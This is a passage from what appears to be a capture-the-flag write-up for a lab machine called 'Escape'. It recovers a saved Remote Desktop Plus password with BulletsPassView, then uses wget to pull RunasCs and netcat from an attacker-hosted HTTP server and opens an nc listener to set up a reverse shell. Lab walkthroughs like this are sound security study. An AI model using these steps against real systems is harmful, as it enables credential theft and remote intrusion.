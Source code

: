 Having `profiles.xml` on our `Downloads` directory we can now proceed and import the configuration. We still need to enter a computer name. Assuming this means the hostname, we execute on our PowerShell `hostname` and find the computer's name `Escape`.

```powershell
PS C:\_admin> hostname
Escape
```

Entering `Escape` as a computer name, on the appropriate field, an unknown error appears, immediately crashing `rdp.exe`.

Executing again the program, importing the same `admin` configuration, we notice the entered credentials. The password field is replaced with asterisk characters, but we can view it using a utility called "BulletsPassView". To do that, we'll need to download the tool from the web on a temporary server, and parse it to the Windows machine using a local server.

We open a terminal, and setup a python local server on our hosts current directory e.g. `/home/kali/Downloads/. 

```bash
python3 -m http.server
```

From the target machine, we can download the `BulletsPassView.exe` using `wget`.

```powershell
PS C:\> mkdir temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          8/8/2025   3:27 PM                temp


PS C:\> cd temp
PS C:\temp> wget http://10.10.14.176:8000/bulletspassview-x64/BulletsPassView.exe -O bfv.exe
```

On Remote Desktop Plus, we go to `Manage profiles... > admin > Edit...`, switching to `BulletsPassView.exe` reveals the password `Twisting3021` on window title `Edit profile`.

Using these credentials, we can connect remotely from our machine. To do that, we'll need `RunasCs` and `netcat`.

We open a listener on our host.

```bash
nc -lvnp 8888
```

We download `RunasCs` and `netcat` on the directory our python http server is running. Next we fetch these two programs on the target's machine with `wget`. 

```powershell
PS C:\temp> wget http://10.10.14.176:8000/RunasCs/RunasCs.exe -O runascs.exe
PS C:\temp> wget http://10.10.14.176:8000/netcat-1.11/nc64.exe -O nc64.exe
```
